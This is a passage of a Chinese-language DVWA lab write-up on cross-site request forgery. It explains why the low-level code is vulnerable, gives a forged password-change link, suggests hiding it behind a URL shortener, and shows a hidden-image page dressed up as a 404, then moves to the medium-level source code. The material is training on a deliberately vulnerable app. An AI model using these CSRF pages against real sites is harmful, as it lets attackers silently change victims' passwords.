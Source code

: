 ```php
    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```
只检查了password_new和password_conf是否相等，以及对输入字符进行了一些转义，但并未对CSRF做任何防御措施。

#### 解题思路
- 构造恶意链接http://127.0.0.1:9000/dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change

将这个链接在登录了DVWA账户的浏览器中访问，浏览器就会自动携带用户cookie访问链接并修改密码，实际CSRF攻击会模仿真实网站页面来混淆，不过链接还是会很明显，所以需要下面这种方法。

- 使用短链接伪装

https://dwz.cn缩短网址，但是必须是带域名链接而不能是带IP地址的链接。

- 构造恶意页面，使用img标签隐藏真实目的
```html
<img src="http://127.0.0.1:9000/dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change" border="0" style="display:none;" />
<h1>404</h1>
<h2>file not found.</h2>
```
用户使用浏览器访问该页面时，就会被修改。如果用户是用A浏览器访问站点，又使用B浏览器访问恶意页面，是不会出发漏洞的。



## 0x02 Medium

#### 源码分析
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
```